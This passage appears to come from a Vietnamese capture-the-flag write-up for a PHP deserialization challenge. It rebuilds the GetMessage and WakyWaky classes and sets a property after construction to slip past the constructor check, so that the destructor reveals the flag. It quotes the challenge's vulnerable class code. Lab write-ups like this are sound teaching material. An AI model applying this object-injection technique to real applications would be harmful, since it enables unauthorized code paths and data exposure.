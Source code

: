 Sửa lại class `GetMessage` vì khi tạo payload ta chỉ cần có thuộc tính `receive` trong class `GetMessage`:
```php
class GetMessage
{
    public $receive;
}
```

Sửa lại class `WakyWaky` để khi class được khởi tạo (`__construct()`) nó sẽ gán giá trị cho thuộc tính `msg` bằng `msg` được truyền:
```php
class WakyWaky
{
    public $msg;
    function __construct($msg)
    {
        $this->msg = $msg;
    }
}
```

Khởi tạo class `GetMessage` với giá trị `something`:

```php
$first = new GetMessage('something');
```

Để bypass check `__construct()` ở class `GetMessage`:

```php
function __construct($receive) {
        if ($receive === "HelloBooooooy") {
            die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
        } else {
            $this->receive = $receive;
        }
    }
```

Gán giá trị cho thuộc tính `receive=HelloBooooooy`:

```php
$first->receive = 'HelloBooooooy';
```

Để bypass điều kiện kiểm tra trong hàm `__destruct()`:

```php 
function __destruct() {
        global $getflag;
        if ($this->receive !== "HelloBooooooy") {
            die("[FRIEND]: Hm.. you don't see to be the friend I was waiting for..<br>");
        } else {
            if ($getflag) {
                include("flag.php");
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG."<br>";
            }
        }
    }
```
